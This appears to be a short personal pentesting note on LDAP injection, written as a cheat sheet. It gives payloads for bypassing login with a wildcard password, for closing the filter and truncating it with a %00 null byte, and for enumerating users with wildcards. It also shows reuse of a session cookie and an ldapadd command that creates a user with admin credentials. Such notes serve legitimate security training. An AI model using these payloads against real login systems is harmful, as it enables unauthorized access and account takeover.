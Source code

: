 ## Wildcards

A way to authenticate is used wildcard:

````bash
(&
	(cn=admin)
	(userPassword=*)
)
````

admin | \*

![](../../../Images/Pasted%20image%2020230808142052.png)

## Avoid authentication closing the query and using null byte to comment the rest

You can avoid the authenticate using this:

````bash
(&(cn=admin))%00)(userPassword=*)
````

if you can close the brackets you are indicating that the rest of the query isn't performed

You can use a **null byte** to comment the rest of the query

````bash
user_id=admin))%00&password=sdfasdf&login=1&submit=Submit
````

You can copy the cookie and put in your request:

> Cookie: PHPSESSID=...


---

## Enum user using wildcard

To enumerate user you can use this:

````bash
user_id=ad*&password=*&login=1&submit=Submit
````

---

# Ldapadd

You can use [[ldapadd]] to add a file and create a new user

````bash
ldapadd -x -H ldap://localhost -D "cn=admin,dc=example,dc=org" -w admin -f newuser.ldif
````

---